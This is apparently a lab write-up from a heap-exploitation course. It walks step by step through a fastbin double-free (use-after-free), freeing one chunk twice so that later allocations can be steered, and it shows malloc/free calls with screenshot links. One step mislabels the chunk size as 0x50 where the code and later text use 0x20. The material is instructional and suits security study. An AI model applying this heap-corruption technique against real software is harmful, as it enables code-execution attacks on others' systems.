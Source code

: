 ## Fastbin with Use-After-Free
*****************************************
1.- Request two 0x50 size chunk
```
chunk_A = malloc(24, b"A"*24)
chunk_B = malloc(24, b"B"*24)
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen1.png)

2.- Free chunk A
```
free(chunk_A)
```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen2.png)

3.- Free chunk B
```
free(chunk_B)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen3.png)

4.- Free chunk A
```
free(chunk_A)
```
![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen4.png)

5.- malloc(24,b'C'*24)
```
malloc(24,b'C'*24)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen5.png)

6.- There are the CCCCCCC… where before was the 7020 pointer :O, so where will do now the Ds malloc?
```
malloc(24,b'D'*24)
```
![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen6.png)

7.- Yes, in the next chunk linked in the 0x20 fastbin list...
So now we will send some EEEE's
```
malloc(24,b'E'*24)
```
![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen7.png)

And now we can note that we controll where the next 0x20 fastbin will be allocated.